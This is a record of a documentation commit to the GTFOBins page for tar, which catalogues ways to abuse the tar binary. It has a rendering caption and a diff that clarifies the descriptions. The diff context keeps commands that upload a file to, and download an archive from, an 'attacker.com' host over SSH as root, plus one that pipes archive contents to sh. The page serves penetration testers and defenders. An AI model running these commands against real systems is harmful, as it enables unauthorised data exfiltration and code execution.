

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tar.md, in a window 1280 px wide and 900 px high, scrolled down 469 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update the descriptions

```diff
--- a/_gtfobins/tar.md
+++ b/_gtfobins/tar.md
@@ -12,7 +12,7 @@ functions:
         tar xf "$TF.tar" --to-command sh
         rm "$TF"*
   file-upload:
-    - description: Create tar archive and send it via SSH to a remote location. The attacker box must have the rmt utility installed.
+    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
       code: |
         export RHOST=attacker.com
         export RUSER=root
@@ -20,7 +20,7 @@ functions:
         export LFILE=file_to_send
         tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/bin/ssh
   file-download:
-    - description: Download and extract a tar archive via SSH. The attacker box must have the rmt utility installed.
+    - description: This only works for GNU tar. Download and extract a tar archive via SSH. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
       code: |
         export RHOST=attacker.com
         export RUSER=root
```
